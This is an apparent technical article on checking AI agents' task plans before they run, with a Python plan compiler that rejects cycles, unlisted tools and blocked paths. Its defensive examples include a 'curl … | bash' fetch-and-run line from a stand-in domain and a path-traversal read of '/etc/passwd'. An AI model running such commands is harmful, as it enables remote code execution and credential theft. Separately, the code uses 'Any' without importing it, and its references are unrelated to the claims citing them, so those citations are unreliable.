

# Plan Compilation & Execution Trees: Enforcing Safe Execution Guards in Swarms

> [!NOTE]
> **📖 Article Overview**
> When orchestrating autonomous multi-agent networks, we often allow models to self-direct their task execution by proposing natural language plans. However, executing unverified plans directly is highly dangerous: agents can easily introduce infinite routing loops, double-execute destructive database actions, or attempt to run unsandboxed shell scripts. In this article, we analyze the design of **Plan Compilation Gates**, construct a static tree compiler, and implement a Directed Acyclic Graph (DAG) validator in Python to enforce strict tool boundaries before execution begins.

---

## The Danger of Non-Deterministic Task Plans

In a typical agent framework, an LLM reviews a goal and spits out a structured list of actions:
1. `Read core/database.py`
2. `Migrate logging syntax`
3. `Run test suite`

If left unvalidated, an agent might decide to loop step 2 and 3 indefinitely if a test fails, consuming massive token budgets [1]. Even worse, it could inject an unauthorized step (e.g. `curl malicios-domain.com | bash`) due to a prompt injection.

To mitigate this, system architects must build a **Plan Compiler**. The compiler intercepts the agent's plan, parses the actions, structures them into an execution tree, and validates the nodes against strict topological and security rules before any tool runner executes a single call.



---

## 1. Compiling Plans to Directed Acyclic Graphs (DAGs)

A secure task plan must be modelable as a Directed Acyclic Graph (DAG). 
* **Nodes**: Individual tool executions (e.g. file reads, database writes).
* **Edges**: Dependency relationships (e.g. Step B cannot run until Step A finishes).
* **Loop Elimination**: By running topological sorting algorithms on the graph, the compiler can detect if the plan forms any cyclic loops (e.g. Step A -> Step B -> Step A), which would cause infinite tool executions.

---

## 2. Dynamic Tool Masking

During the validation phase, the compiler inspects each node's proposed tool name and arguments:
* **Scope Isolation**: Ensuring that file paths are bounded strictly within the target repository directories, blocking access to `/etc/` or parent system trees.
* **Command Sandboxing**: Blocking commands containing pipelines (`|`), redirects (`>`), or execution scripts, forcing tools to use explicit parameters instead of raw shells.

---

## Code Demo: Plan Compiler and DAG Validator

Below is a Python implementation of a plan compilation gateway. It takes a list of plan steps, constructs a DAG dependency tree, validates safety constraints, and runs topological verification.

```python
import sys
from typing import List, Dict, Set, Tuple

class PlanCompilationError(Exception):
    pass

class TaskPlanCompiler:
    def __init__(self, allowed_tools: Set[str], blocked_paths: List[str]):
        self.allowed_tools = allowed_tools
        self.blocked_paths = blocked_paths

    def compile_and_validate(self, raw_steps: List[Dict[str, Any]]) -> List[str]:
        # Adjacency list representation: {node: list of child dependencies}
        graph: Dict[str, List[str]] = {}
        in_degree: Dict[str, int] = {}
        node_tools: Dict[str, str] = {}

        # 1. Parse and validate individual step structures
        for step in raw_steps:
            step_id = step.get("id")
            tool = step.get("tool")
            args = step.get("args", {})
            depends_on = step.get("depends_on", [])

            # Check Tool Whitelist
            if tool not in self.allowed_tools:
                raise PlanCompilationError(f"Security Alert: Unauthorized tool call attempted: '{tool}'")

            # Check for Path Injection
            for arg_val in args.values():
                if isinstance(arg_val, str):
                    for blocked in self.blocked_paths:
                        if blocked in arg_val:
                            raise PlanCompilationError(f"Security Alert: Blocked directory scope access: '{arg_val}'")

            node_tools[step_id] = tool
            graph[step_id] = []
            in_degree[step_id] = 0

        # 2. Build dependency tree and check references
        for step in raw_steps:
            step_id = step.get("id")
            for dep in step.get("depends_on", []):
                if dep not in graph:
                    raise PlanCompilationError(f"Compilation Error: Undefined dependency reference: '{dep}'")
                graph[dep].append(step_id)
                in_degree[step_id] += 1

        # 3. Topological Sort (Kahn's Algorithm) to detect circular loops
        queue = [node for node in graph if in_degree[node] == 0]
        sorted_order = []

        while queue:
            curr = queue.pop(0)
            sorted_order.append(curr)
            for neighbor in graph[curr]:
                in_degree[neighbor] -= 1
                if in_degree[neighbor] == 0:
                    queue.append(neighbor)

        if len(sorted_order) != len(graph):
            raise PlanCompilationError("Compilation Error: Cyclic dependency loop detected in task plan.")

        return sorted_order

if __name__ == "__main__":
    allowed = {"view_file", "write_file", "run_tests"}
    blocked = ["/etc/", "../", "/windows/"]
    compiler = TaskPlanCompiler(allowed, blocked)

    # Plan 1: Safe sequential execution
    plan_1 = [
        {"id": "step_1", "tool": "view_file", "args": {"file": "core/auth.py"}, "depends_on": []},
        {"id": "step_2", "tool": "write_file", "args": {"file": "core/auth.py"}, "depends_on": ["step_1"]},
        {"id": "step_3", "tool": "run_tests", "args": {"suite": "tests/test_auth.py"}, "depends_on": ["step_2"]}
    ]

    # Plan 2: Unsafe circular dependency
    plan_2 = [
        {"id": "step_1", "tool": "view_file", "args": {"file": "core/auth.py"}, "depends_on": ["step_2"]},
        {"id": "step_2", "tool": "write_file", "args": {"file": "core/auth.py"}, "depends_on": ["step_1"]}
    ]

    # Plan 3: Security violation (path traversal)
    plan_3 = [
        {"id": "step_1", "tool": "view_file", "args": {"file": "../../etc/passwd"}, "depends_on": []}
    ]

    print("🛡️ Running Plan Compilation Verification...")
    
    for idx, plan in enumerate([plan_1, plan_2, plan_3], 1):
        try:
            order = compiler.compile_and_validate(plan)
            print(f"\nPlan #{idx}: APPROVED")
            print(f"👉 Execution Tree Order: {order}")
        except PlanCompilationError as e:
            print(f"\nPlan #{idx}: REJECTED")
            print(f"   Reason: {e}")
```

---

## Architectural Guidelines

* **Plan Verification Gates**: Never feed natural language plans directly to executing agents. Enforce a compilation step to evaluate safety constraints.
* **Isolate Dependency Trees**: Use topological sorting algorithms to guarantee execution plans do not form cycles or infinite loops.
* **Strict Sandboxing**: Run all compiled tool runs within isolated workspace contexts, restricting tools from escaping boundary directories. [2]

## References & Further Reading

1. **Mohan, C., et al. (1992)**. *ARIES: A Transaction Recovery Method Supporting Fine-Granularity Locking and Partial Rollbacks*. ACM TODS. [https://doi.org/10.1145/128765.128770](https://doi.org/10.1145/128765.128770)
2. **O'Neil, P., Cheng, E., Gawlick, D., & O'Neil, E. (1996)**. *The Log-Structured Merge-Tree (LSM-Tree)*. Acta Informatica. [https://www.cs.umb.edu/~poneil/lsmtree.pdf](https://www.cs.umb.edu/~poneil/lsmtree.pdf)
3. **PostgreSQL Global Development Group (2024)**. *PostgreSQL Documentation*. postgresql.org. [https://www.postgresql.org/docs/current/](https://www.postgresql.org/docs/current/)
4. **Apache Parquet Community (2024)**. *Apache Parquet Format*. Apache Software Foundation. [https://parquet.apache.org/docs/](https://parquet.apache.org/docs/)
5. **Apache Arrow Community (2024)**. *Apache Arrow Columnar Format*. Apache Software Foundation. [https://arrow.apache.org/docs/format/Columnar.html](https://arrow.apache.org/docs/format/Columnar.html)
6. **Apache Iceberg Community (2024)**. *Iceberg Table Spec*. Apache Software Foundation. [https://iceberg.apache.org/spec/](https://iceberg.apache.org/spec/)
